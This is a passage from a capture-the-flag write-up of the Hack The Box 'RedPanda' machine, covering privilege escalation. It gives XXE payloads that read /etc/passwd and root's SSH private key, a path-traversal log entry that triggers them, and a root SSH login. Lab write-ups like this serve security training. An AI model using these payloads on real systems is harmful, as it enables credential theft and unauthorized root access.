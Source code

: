 ```sh
Megapixels                      : 1.1

┌──(kali㉿kali)-[~/Workspace/labs-htb/RedPanda]
```
2. The xml code for Privilege Escalation.
[https://portswigger.net/web-security/xxe](https://portswigger.net/web-security/xxe)
[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection)
We will create a file like the this and save file to `pe_creds.xml`
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<credits>
  <author>pe</author>
  <image>
    <uri>/../../../../../../../../../tmp/pe.jpg</uri>
    <views>4</views>
    <foo>&xxe;</foo>
  </image>
  <totalviews>5</totalviews>
</credits>
```
3. The log that need to write to `/opt/panda_search/redpanda.log`
```sh
200||127.0.0.1||curl||/../../../../../../../../../tmp/pe.jpg
```

after 2min we BOOM.

change the `pe_creds.xml` to this one to get private key for `root` user:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///root/.ssh/id_rsa"> ]>
<credits>
  <author>pe</author>
  <image>
    <uri>/../../../../../../../../../tmp/pe.jpg</uri>
    <views>4</views>
    <foo>&xxe;</foo>
  </image>
  <totalviews>5</totalviews>
</credits>
```

We save the private key and get the root `flag`.

```sh
┌──(bop㉿Matrix)-[~/Workspace/hackthebox/RedPanda]
└─$ ssh -i id_rsa root@10.10.11.170
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-121-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue 30 Aug 2022 03:57:43 PM UTC

  System load:           0.04
  Usage of /:            94.0% of 4.30GB
  Memory usage:          75%
  Swap usage:            1%
  Processes:             262
```